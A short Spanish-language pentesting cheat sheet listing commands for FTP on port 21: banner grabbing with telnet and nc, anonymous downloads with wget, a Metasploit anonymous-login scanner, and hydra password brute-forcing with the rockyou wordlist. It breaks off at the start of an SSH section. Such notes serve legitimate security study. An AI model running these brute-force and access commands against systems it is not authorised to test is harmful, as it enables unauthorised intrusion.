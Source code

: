 Banner grab

```bash
telnet <IP> 21
nc <IP> 21
```

Descargar ficheros de un FTP

```bash
# Local

ftp> get Directorio\\ archivo.txt

# Remoto

wget -m <ftp://anonymous:anonymous@IP>
wget -m --no-passive <ftp://anonymous:anonymous@IP>
```

Subir fichero a FTP

```bash

# Local
touch ficehro.txt

# En servidor FTP
ftp> put fichero.txt

```

Modulo para metasploit

```bash
use auxiliary/scanner/ftp/anonymous
```

Bruteforce FTP

```bash
# Conociendo usuario
hydra -l admin -P /usr/share/wordlist/rockyou.txt <ftp://192.168.0.1>

#Sin conocer user ni password
hydra -L userlist.txt -P passlist.txt <ftp://192.168.0.1>
```

#### Port 22 | SSH

Conexión ssh

```bash
nc IP 22
ssh usuario@<IP>
```

Banner grabbing
